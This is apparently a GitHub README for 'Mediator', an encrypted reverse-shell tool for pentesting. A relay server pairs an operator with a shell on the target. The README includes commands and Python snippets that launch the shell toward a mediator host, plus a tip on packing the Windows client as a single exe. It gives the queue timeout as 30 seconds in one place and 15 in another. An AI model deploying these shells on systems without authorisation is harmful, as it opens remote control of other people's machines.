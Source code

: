 # Mediator

Mediator is an end-to-end encrypted reverse shell in which the operator and the shell connect to a "mediator" server that bridges the connections. This removes the need for the operator/handler to set up port forwarding in order to listen for the connection. It also allows for easy integration into other pentesting and incident response tools.

<p align="center" float:"right">
    <img src="resources/mediator.png" alt="mediator logo" width="300"/>
</p>

## Architecture:

Inspired by end-to-end encrypted chat applications, this reverse shell takes a unique approach to the client/server model of a reverse shell. This reverse shell uses:

1. A client reverse shell
2. A client handler/operator
3. A server that bridges the two connections

Reverse shells and handlers connect to the mediator server with a connection key. The server listens on port 80 for handler connections and port 443 for reverse shell connections. When clients connect to the mediator, the server queues the clients according to their respective type and connection key. When both a reverse shell and an operator connect to the server with the same key, the server will bridge the two connections. From there, a key exchange is done between the two clients, and all communication between the reverse shell and operator is encrypted end-to-end. This ensures the server cannot snoop on the streams it is piping.

## Instructions:

### Server

The client scripts can be run on Windows or Linux, but you'll need to stand up the server ([mediator.py](mediator.py)) on a Linux host. You can either run the server script with

```bash
$ python3 mediator.py
```

or you can build a Docker image with the provided [Dockerfile](Dockerfile) and run it in a container (make sure to publish ports 80 and 443).

### Clients

The handler and the reverse shell can be used within other Python scripts or directly via the command line. In both cases, the clients can accept arguments for the server address and connection key. Usage of those arguments is described below.

**Mediator server address**

For *Python script* usage, the address of the mediator host is required upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com")
operator.run()
```

*WindowsRShell class*
```python
from windowsTarget import WindowsRShell

shell = WindowsRShell(mediatorHost="example.com")
shell.run()
```

If executing a client script *directly from a shell*, you can either hard code the address at the bottom of the script, or the server address can be specified as an argument with the `-s` or `--server` flag:

*handler.py*
```bash
$ python3 handler.py -s example.com
```

*windowsTarget.py*
```powershell
> python windowsTarget.py -s example.com
```

**Connection key**

When two handlers or two reverse shells connect to the mediator server with the same connection key, only the first connection is queued awaiting its match. Until the queued connection either times out (30 seconds) or matches with a counterpart connection, all other clients of the same type trying to connect with the same connection key will be dropped.

It is important to make sure each handler is using a unique connection key to avoid a race condition resulting in the wrong shell being given to an operator. 

Only keys with the prefix "#!ConnectionKey_" will be accepted by the server. The default connection key is "#!ConnectionKey\_CHANGE\_ME!!!".

To change the connection key for *Python script* usage, the connection key can optionally be supplied upon instantiation:

*Handler class*
```python
from handler import Handler

operator = Handler(mediatorHost="example.com", connectionKey="#!ConnectionKey_secret_key")
operator.run()
```

*LinuxRShell class*
```python
from linuxTarget import LinuxRShell

shell = LinuxRShell(mediatorHost="example.com", connectionKey="#!ConnectionKey_secret_key")
shell.run()
```

If executing a client script *directly from a shell*, you can either hard code the connection key at the bottom of the script, or the connection key can be specified as an argument with the `-c` or `--connection-key` flag:

*handler.py*
```bash
$ python3 handler.py -s example.com -c '#!ConnectionKey_secret_key'
```

*windowsTarget.py*
```powershell
> python windowsTarget.py -s example.com -c '#!ConnectionKey_secret_key'
```


## Tips and Reminders:

- REMINDER: handlers and reverse shells will not be bridged together unless they connect to the mediator server using the same connection key within 15 seconds of each other.
- TIP: You can easily create an exe for windowsTarget.py with pyinstaller using the `--onefile` flag


